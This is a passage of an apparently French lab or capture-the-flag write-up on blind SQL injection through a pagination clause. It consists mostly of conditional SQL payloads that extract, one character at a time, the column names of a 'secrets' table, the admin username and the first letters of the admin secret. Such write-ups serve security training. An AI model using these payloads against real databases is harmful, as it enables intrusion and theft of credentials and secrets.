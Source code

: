 ```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 1),2,1))=ORD('s')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 1),3,1))=ORD('e')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

La seconde colonne se nomme "username".

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 2),1,1))=ORD('s')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 2),2,1))=ORD('e')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 2),3,1))=ORD('c')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

La troisième et dernière colonne se nomme "secret".

Récupération du secret de l'administrateur :&#x20;

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0),1,1))=ORD('a')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0),2,1))=ORD('d')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0),3,1))=ORD('m')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

Le nom d'utilisateur est "admin".

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),1,1))=ORD('M')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),2,1))=ORD('o')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```
